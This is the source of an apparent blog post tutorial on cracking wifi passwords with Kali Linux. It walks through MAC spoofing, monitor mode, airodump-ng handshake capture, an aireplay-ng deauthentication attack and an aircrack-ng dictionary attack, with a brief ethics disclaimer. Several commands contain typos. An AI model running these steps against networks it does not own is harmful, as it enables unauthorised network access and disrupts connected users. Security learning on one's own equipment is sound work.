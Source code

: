 ```yaml
---
layout: post
title: Decrypt Wifi Password?
categories: [Computer Network]
comments: true
image: wifi.png
description: How to decrypt wifi password | hack wifi password | Kali Linux | 
---
```


There are various algorithms implemented to encrypt passwords. 
It's not ethical to steal passwords of any kind, without owner's consent. However
we can setup our own environment to do some ethical practises and there are tools available for the purpose.<br>

<!--continue-->

Kali Linux is one the OS preferred for penetration testing. We can use programs in Kali OS to 
experiment with vulnerable wifi passwords in our network.<br>

<li> Change MAC address    
  <pre>macchanger  --random wlan0</pre>
    <p> MAC(Media Access Control) Address is loaded into RAM during boot and this can be changed.<br>
    </p>
</li>
<li>Set Up Monitor Mode to Wireless Interface

<p>Change the defualt 'Managed Mode' of our Wireless Interface to 'Monitor Mode'. This enables
us to collect all the packets from the router.</p>
<pre>iwconfig wlan0
ifconfig wlan0 down
ifconfig wlan0 mode monitor
ifocnig wlan0 up
iwconfig wlan0</pre>

</li>

<li>Catch Enough handshakes
<pre>
#get the required AP,channel, bssid using program airmon-ng on wireless interface
airmon-ng wlan0

#Capture every packets sent by AP on our interface usng program airodump-ng
airodump-ng --channel [channel] --bssid [bssid]  --write [filename] [interface]

#Deauthenticate client or/and wait for client to reconnect to wifi
aireplay-ng --deauth[number of deauth packets] -a [AP] -c[target] [interface]
</pre>
</li>

<li>Crack the Key
<pre>#Download the world list file and use aicrack-ng tool to crack the key
aircrack-ng [handshake filename] --w [wordlist] [interface]</pre>
</li>


<p> Some common wireless encryptions today are WEP, WPA, WPA2. WPA/WPA2 is considered as secure one. With WPS feautre enabled, it might be easier to crack the wifi. And if not, the only way is the dictionary  attack which involves comparing the dictionay(list of passwords) with handshake file.</p>
